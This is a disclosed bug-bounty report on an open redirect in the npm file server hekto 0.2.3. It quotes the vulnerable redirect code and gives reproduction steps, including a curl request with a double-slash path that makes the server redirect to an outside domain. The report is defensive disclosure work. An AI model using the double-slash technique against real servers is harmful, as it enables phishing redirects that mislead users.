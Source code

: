 # [hekto] open redirect when target domain name is used as html filename on server

## Report Details
- **Report ID**: 320693
- **URL**: https://hackerone.com/reports/320693
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-02-28T08:25:04.122Z
- **Disclosed**: 2018-05-20T08:45:37.538Z

## Reporter
- **Username**: brainpanic
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi,

There is an open redirect in hekto when target domain name is used as html filename on server.

# Module

**module name:** hekto
**version:** 0.2.3
**npm page:** `https://www.npmjs.com/package/hekto`

## Module Description

This package exposes a directory and its children to create, read, update, and delete operations over http.

## Module Stats

[0] downloads in the last day
[21] downloads in the last week
[216] downloads in the last month

~[2600] estimated downloads per year

# Vulnerability

## Vulnerability Description

When processing extensionless html, hekto launches a redirection.

```
//https://github.com/herber/hekto/blob/master/bin/hekto.js#L184
      // Add trailing slash for extensionless html.
      if (fs.existsSync(file + '.html') && fs.lstatSync(file + '.html').isFile()) {
        this.status = 307;
        this.redirect(this.request.url + '/' + query);

        return ;
      }
```

For example, if there is a file named "hackerone.com.html" in document root dir, accessing `http://<server>/hackerone.com` will leads to a redirection to `http://<server>/hackerone.com/`.

But when accessing `http://<server>//hackerone.com`, the server would redirect ro `//hackerone.com`.


## Steps To Reproduce:

1. install hekto module
`$ npm install hekto`

2. create a file named `hackerone.com.html`
`$ touch hackerone.com.html`

3. run server from command line
`$ ./node_modules/hekto/bin/hekto.js serve`

4. test redirection

```
$ curl -i http://127.0.0.1:3000//hackerone.com
HTTP/1.1 307 Temporary Redirect
Vary: Accept-Encoding
X-Powered-By: Hekto
Location: //hackerone.com/
Content-Type: text/html; charset=utf-8
Content-Length: 63
Date: Wed, 28 Feb 2018 08:22:31 GMT
Connection: keep-alive

Redirecting to <a href="//hackerone.com/">//hackerone.com/</a>.
```

## Supporting Material/References:

> State all technical information about the stack where the vulnerability was found

- macOS 10.13.3
- Node.js v9.6.1
- npm 5.6.0
- curl 7.54.0

# Wrap up

- I contacted the maintainer to let him know: [N] 
- I opened an issue in the related repository: [N]

## Impact

This vulnerability can be used to phishing attacks

## Attachments
No attachments
